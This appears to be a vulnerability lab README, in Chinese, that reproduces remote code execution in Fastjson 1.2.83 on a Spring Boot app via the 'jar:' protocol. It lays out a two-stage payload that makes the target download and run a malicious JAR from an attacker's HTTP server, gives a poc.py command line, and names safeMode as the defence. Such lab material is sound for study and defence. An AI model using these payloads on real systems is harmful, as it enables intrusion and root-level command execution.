


# Fastjson 1.2.83 通过 `jar:` 协议远程命令执行

Fastjson 是阿里巴巴开发的一款被广泛使用的 JSON 库。当它反序列化带有 `@type` 字段的 JSON 对象时，会把该字段的值当作类名交给类加载器，这正是历代 Fastjson 反序列化漏洞的根源。

即使在 `autoType` 默认关闭、classpath 上没有任何 gadget 类的情况下，Fastjson 1.2.83 仍可借助 JVM 的 `jar:` 协议被利用。在处理任意 `@type` 时，`checkAutoType` 会先做一次 `@JSONType` 注解探测：它在校验类名之前就对 `<类名>.class` 调用 `getResourceAsStream`。如果 `@type` 的值是一个 `jar:` URL，JVM 便会打开它——通过 `jar:file` 读取本地 JAR，或通过 `jar:http` 下载远程 JAR。不过远程 `jar:http` 加载并非在所有环境下都成立：标准 JVM 的默认类加载器并不会去拉取远程 JAR，这一手法需要在 Spring Boot 应用（如本环境）下才能复现——其 `URLClassLoader` 会真正发起该请求。当这个 JAR 中的类带有 `@JSONType` 注解时，它无需 `autoType`、无需 `expectClass`、也无需任何继承关系即可通过加载闸门，随后 Fastjson 会实例化该类，从而在它的静态初始化块与构造器中执行攻击者代码。该利用手法影响 `autoType` 保持默认关闭且未开启 `safeMode` 的 Fastjson 1.2.x 直至 1.2.83 版本；开启 `safeMode` 即可防御。

参考链接：

- <https://github.com/alibaba/fastjson2/wiki/Security-Advisory:-Remote-Code-Execution-in-fastjson-1.2.68%E2%80%931.2.83>
- <https://fearsoff.org/research/fastjson-1-2-83-rce>

## 环境搭建

执行如下命令启动一个使用 Fastjson 1.2.83 作为 JSON 解析器的 Spring Boot 应用：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8090` 即可看到返回的 JSON 对象。`/` 端点接受 `Content-Type: application/json` 的 POST 请求体并用 Fastjson 解析，这就是我们要攻击的反序列化入口。

## 漏洞复现

由于 Fastjson 在为 `@JSONType` 探测拼接资源路径时会把每个 `.` 都替换成 `/`，攻击者的点分 IP 地址会被打碎成一堆路径分隔符，因此利用时需要用无点的十进制整数形式来表示攻击者的 HTTP 服务地址。此外 `jar:http://` 的类名中含有 URL authority 的 `//`，JDK 在 Tomcat 请求线程上会拒绝直接 define 这种类名。为了绕过这两个限制，攻击分为两个阶段：第一个请求的 `@type` 为 `jar:http://<十进制 IP>:<端口>/probe!/POC`，迫使目标下载恶意 JAR 并将其作为一个打开的文件描述符缓存在 `/proc/self/fd/N`；第二批请求随后遍历一段 `N`，用 `jar:file:/proc/self/fd/N!/POCN` 这种全单斜杠、各版本 JDK 都接受的类名逐个尝试，直到命中缓存的那个 JAR，此时恶意类被 define、实例化，其携带的命令随即执行。

配套的 `poc.py` 将整条链自动化：它用纯 Python 生成以 `jar:` URL 为类名的恶意类，通过内置 HTTP 服务托管，并依次发送两个阶段的请求。运行时用你本机的 IP 作为攻击者地址（目标容器必须能访问到它），并指定要执行的命令：

```
python3 poc.py pwn -t http://your-ip:8090/ -l <攻击者 IP> -c 'id > /tmp/success'
```

工具会先输出攻击者 IP 的十进制形式，构建并托管 probe JAR，发送第一阶段的下载请求（这里返回 `400` 或 `autoType is not support` 都是正常的，下载副作用已经发生），随后遍历 `/proc/self/fd` 区间进行喷洒。该端点即使利用成功也会返回错误，因为它产生的对象并不是期望的 bean，所以命令执行是盲打的，需要带外核验。



在容器内读取标记文件，确认命令已执行：

```
docker compose exec web cat /tmp/success
```

它会输出 `uid=0(root) gid=0(root) groups=0(root)`，证明以 root 权限执行了任意命令。



`poc.py` 还提供了一个带外检测的 `scan` 子命令，它只触发无害的 `jar:http` 下载（不执行代码），当 [interactsh](https://github.com/projectdiscovery/interactsh) 服务器收到回连时即判定目标存在漏洞。
